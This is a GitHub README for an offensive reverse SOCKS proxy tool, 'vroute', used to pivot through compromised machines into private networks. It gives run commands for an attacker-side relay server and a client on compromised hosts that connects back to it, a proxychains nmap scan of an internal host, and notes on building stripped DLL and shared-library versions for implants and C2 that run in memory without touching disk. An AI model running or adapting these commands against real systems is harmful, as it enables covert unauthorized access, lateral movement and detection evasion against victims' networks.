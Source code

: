 # vroute

Reverse SOCKS proxy through HTTP(S) for network pivoting

## Introduction

Project allowing operators to use compromised devices in offensive network operations to route traffic into private network for which there is no direct access otherwise.

Supports the following protocols for relay communication:

- TCP

- HTTP

- HTTPS

Supported operating systems:

- GNU/Linux

- Microsoft Windows

This project has two main parts:

- **Server**: Binds a SOCKS proxy and a relay server

- **Client**: Connects to server relay server

The SOCKS proxy is where we poing the SOCKS proxy client (Eg.: using proxychains), and where we route OST traffic to.

The relay server acts as a middleman between compromised devices and the SOCKS proxy client, which ultimately allows the SOCKS proxy client to reach network destinations that the compromised nodes have access to.

Compiles ELF and DLL shared libraries to be plugged in your implants for easy use of the client in memory without touching disk (Eg.: check [https://github.com/lockedbyte/so_loader](https://github.com/lockedbyte/so_loader)).

VROUTE uses a handshake to verify a PSK (password) to be able to connect to the server.

The communication is encrypted in AES-CBC 256-bit.

**NOTE:** Still fixing bugs in the HTTPS implementation for Windows clients, use HTTP or TCP instead until fixed.


### Example

1) Run the server in attacker machine:

`$ ./vroutesrv 0.0.0.0 1080 0.0.0.0 1337 1 p@ssw0rd12345`

Will start SOCKS proxy at `1080`, and relay server at `1337`.

Will use protocol HTTP (`1`), and will use password `p@ssw0rd12345`.

2) Run client in compromised machine(s)

`$ ./vroutesrv 192.168.1.13 1337 1 p@ssw0rd12345`

Relay server (attacker machine) IP address is `192.168.1.13`, and port is `1337`.

Will use protocol HTTP (`1`), and will use password `p@ssw0rd12345`.

3) Route traffic from your OSTs through compromised devices

(Make sure to add `socks4    127.0.0.1    1080` at `/etc/proxychains.conf`)

It is recommended to increase the proxychains tcp timeout. Example of values:

```
tcp_read_time_out 150000
tcp_connect_time_out 80000
```

Finally use your OSTs:

`$ proxychains nmap 10.0.2.16 -p80,8080,22,443,445,53`


## Installing

Dependencies:

- Mingw GCC
- libopenssl dev

Command:

```bash
sudo apt-get install gcc-mingw-w64
sudo apt-get install libssl-dev
```

## Compiling

DEBUG mode (debug strings, logging, symbols...):

```bash
./compile.sh debug
```

RELEASE mode (no debug strings, no logging, symbol stripping ...):

```bash
./compile release
```

DEV mode (debug strings, logging, symbols, ASAN ...):

```bash
./compile dev
```

The compilation will leave the following output files:

Server:

- `vroutesrv`: Server command line ELF executable (run server from shell)
- `libvroute_server.so`: Shared library for server (Eg.: plug VROUTE server to your C2)

Client:

- `vrouteclt`: Client command line ELF executable (run client from shell - not recommended, leaves many traces)
- `libvroute_client.so`: Shared library for client (Eg.: plug VROUTE client into your implant)

Windows support (only client):

- `vrouteclt.exe`: Microsoft Windows PE executable version of command line client
- `libvroute_client.dll`: Microsoft Windows DLL version of shared library client


## Usage

### Server

Server command line:

```
==== { VROUTE SERVER: USAGE } ===

[0] => HTTPS protocol
[1] => HTTP protocol
[2] => Raw TCP protocol

./vroutesrv <proxy ip> <proxy port> <relay ip> <relay port> <protocol> <password> <cert path (if https)>

  Eg.: ./vroutesrv 0.0.0.0 1080 0.0.0.0 1337 1 p@ssw0rd1234#

```

Server shared library entrypoint:

```c
int start_socks4_rev_proxy(char *proxy_host, int proxy_port, char *relay_host, int relay_port, proto_t proto, char *key, size_t key_sz, char *cert_file, int *err);
```

Force server close:

```c
void socks4_rev_close_srv(void);
```

### Client

Client command line:

```
==== { VROUTE CLIENT: USAGE } ===

[0] => HTTPS protocol
[1] => HTTP protocol
[2] => Raw TCP protocol

./vrouteclt <relay ip> <relay port> <protocol> <password>

  Eg.: ./vroutectl 1.2.3.4 1337 0 p@ssw0rd1234#

```

Client shared library entrypoint:

```c
int start_relay_conn(char *host, int port, proto_t proto, char *key, size_t key_sz);
```











